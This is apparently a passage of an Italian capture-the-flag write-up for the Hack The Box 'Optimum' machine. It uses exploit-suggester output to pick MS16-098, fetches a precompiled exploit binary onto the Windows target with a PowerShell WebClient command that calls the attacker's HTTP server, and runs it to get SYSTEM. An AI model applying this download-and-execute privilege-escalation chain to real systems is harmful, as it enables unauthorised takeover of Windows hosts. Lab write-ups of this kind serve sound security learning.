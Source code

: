 ```bash
[*] there are now 246 remaining vulns                                                                               
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin                                                  
[+] windows version identified as 'Windows 2012 R2 64-bit'                                                          
[*]                                                                                                                 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important                                 
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)  
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Pri
vilege Escalation (MS16-135) (2)                                                                                    
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255                                                   
[*]                                                                                                                 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                 
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
```

Notiamo una vulnerabiltà impoartante la MS16-098
https://www.exploit-db.com/exploits/41020

Scarichimo l'eseguibie all'indiizzo:
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

A questo punto tiruamo su un server per poter accere al file.exe dalla macchina target
```
┌──(venv)─(root㉿kali)-[/home/kali/htb/optimun/Windows-Exploit-Suggester]
└─# python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Dalla macchina target scarichiamo il file.exe con il seguente comando 
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.53:9001/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Non ci reste che eseguire lo scipt

```cmd
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```
